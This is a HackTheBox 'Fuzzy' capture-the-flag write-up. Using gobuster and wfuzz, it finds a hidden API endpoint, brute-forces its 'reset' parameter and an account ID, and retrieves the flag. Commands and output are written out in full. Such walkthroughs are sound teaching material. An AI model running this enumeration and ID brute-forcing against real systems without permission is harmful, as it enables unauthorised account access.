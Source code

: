 # Fuzzy (HackTheBox) (WEB-APP Challenge)

Welcome Readers, Today we will be doing the hackthebox(HTB) challenge

# Finding the Page

We have this nice website in front of us..

![](Selection_007.png)

<br/>

Let's start off with our basic gobuster..

**Command** ```gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm```

**Command Explanation**
 - -w (wordlist)
 - -t (50 threads)
 - -x (Look for these extensions in the bruteforce)

**OUTPUT**
```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,txt,html
[+] Timeout      : 10s
=====================================================
2019/07/11 00:48:35 Starting gobuster
=====================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
```

Now we got an interesting directory named ```api``` let's gobuster this now...

### Command

```
gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/api/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html,htm
[+] Timeout      : 10s
=====================================================
2019/07/11 00:50:53 Starting gobuster
=====================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

We found the ```action.php``` Let's see what we have on this one ...

<br/>

![](Selection_008.png)

<br/>

```
Error: Parameter not set
```

So now we need to find the GET parameter which will be used at this endpoint

## Finding the parameter

For this we will use ```wfuzz``` which can be found [here](https://github.com/xmendez/wfuzz)

### Commands
```
wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```
**Command Explanation**
 - --hh (filter the length of characters in source code)
 - -c   (Output with colors)
 - -w   (Wordlist)
 - FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

```
[sarthak@sarthak tmp]$ wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test 
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                               

Total time: 399.9509
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 51.17877
```

Now we have found our parameter which is ```reset``` let's see what this parameter gives us ...

<br/>

![](Selection_009.png)

<br/>

```
Error: Account ID not found
```

Now we will have to bruteforce the ```Account ID```

## Finding Account ID

We will again use wfuzz for it but this time we will set the character length to 27 (You can find this by simply counting it)...

### Command

```
wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"
```

So we got the account ID let's finalise the url and see what's the output...

```
URL:-http://docker.hackthebox.eu:42566/api/action.php?reset=20
```

### OUTPUT

<br/>

![](Selection_010.png)

<br/>

And we got the flag ..it was a nice little challenge thanx to my friend [stephen](http://web.archive.org/web/20190421032826im_/https://ppfactory.tk/wp-content/uploads/2019/02/IMG_20181231_001959_644.jpg) with whom i solved this challenge :)
<br/>
Thank you guys if you like this writeup stay tuned for more !!
